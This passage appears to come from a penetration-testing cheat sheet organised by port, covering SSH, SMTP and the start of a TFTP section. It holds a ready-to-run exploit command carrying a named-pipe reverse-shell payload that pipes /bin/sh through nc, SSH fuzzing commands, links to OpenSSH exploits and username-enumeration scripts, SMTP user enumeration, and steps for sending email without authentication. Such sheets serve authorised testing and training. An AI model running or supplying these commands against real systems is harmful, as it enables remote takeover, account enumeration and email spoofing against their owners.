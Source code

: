 Reverse

python /usr/share/exploitdb/exploits/linux/remote/46307.py 10.10.1.111 22 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.1.111 80 >/tmp/f"

SSH FUZZ

https://dl.packetstormsecurity.net/fuzzer/sshfuzz.txt

cpan Net::SSH2

./sshfuzz.pl -H 10.10.1.111 -P 22 -u user -p user

use auxiliary/fuzzers/ssh/ssh_version_2

SSH-AUDIT
https://github.com/arthepsy/ssh-audit

• https://www.exploit-db.com/exploits/18557 ~ Sysax 5.53 – SSH ‘Username’ Remote Buffer Overflow
• https://www.exploit-db.com/exploits/45001 ~ OpenSSH < 6.6 SFTP – Command Execution                             
• https://www.exploit-db.com/exploits/45233 ~ OpenSSH 2.3 < 7.7 – Username Enumeration                             
• https://www.exploit-db.com/exploits/46516 ~ OpenSSH SCP Client – Write Arbitrary Files                             

http://www.vegardno.net/2017/03/fuzzing-openssh-daemon-using-afl.html


SSH Enum users < 7.7:
https://github.com/six2dez/ssh_enum_script
https://www.exploit-db.com/exploits/45233
python ssh_user_enum.py --port 2223 --userList /root/Downloads/users.txt IP 2>/dev/null | grep "is a"



# Port 25 - SMTP

nc -nvv 10.11.1.111 25
HELO foo<cr><lf>

telnet 10.11.1.111 25
VRFY root

nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 10.11.1.111

smtp-user-enum -M VRFY -U /root/sectools/SecLists/Usernames/Names/names.txt -t 10.11.1.111

Send email unauth:

MAIL FROM:admin@admin.com

RCPT TO:DestinationEmail@DestinationDomain.com

DATA

test

# Port 69 - UDP - TFTP
This is used for tftp-server.
